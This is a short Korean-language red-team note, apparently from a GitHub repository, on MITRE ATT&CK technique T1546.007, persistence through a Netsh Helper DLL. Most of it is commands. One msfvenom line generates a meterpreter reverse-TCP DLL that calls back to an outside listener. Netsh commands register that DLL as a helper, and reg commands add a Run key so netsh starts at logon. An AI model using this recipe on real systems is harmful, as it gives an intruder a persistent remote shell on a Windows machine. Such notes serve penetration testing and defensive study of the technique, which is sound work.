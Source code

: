 # T1546.007 Netsh Helper DLL

Status: Persistence

---

# Summary

- MITRE ATT&CK : Enterprise - Persistence - Event Triggered Execution - Netsh Helper DLL
- Require Privilege : Local Administrator Level
- Running Privilege : Local Administrator Level
- Description : 윈도우 유틸리티 중 하나인 `Netsh` 에 확장 기능으로 악성 DLL을 삽입한다.

---

# How To

## Step 1. 악성 DLL 생성

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f dll > malicious.dll
```

## Step 2. Netsh Helper에 DLL 등록

```
netsh
add helper <path-to-malicious-dll>
```

---

# To Persistence

- `Netsh`는 기본적으로 실행되는 유틸이 아니기 때문에 지속성을 유지하려면 별도의 방법을 사용
- 아래와 같이 레지스트리 키 변조나 다른 Persistence와 Chaining하여 사용해야 함

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Malicious /t REG_SZ /d "C:\Windows\SysWOW64\netsh"
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run\\ -v Malicious -d 'C:\Windows\SysWOW64\netsh'
```

---

# Reference

[Persistence - Netsh Helper DLL](https://pentestlab.blog/2019/10/29/persistence-netsh-helper-dll/)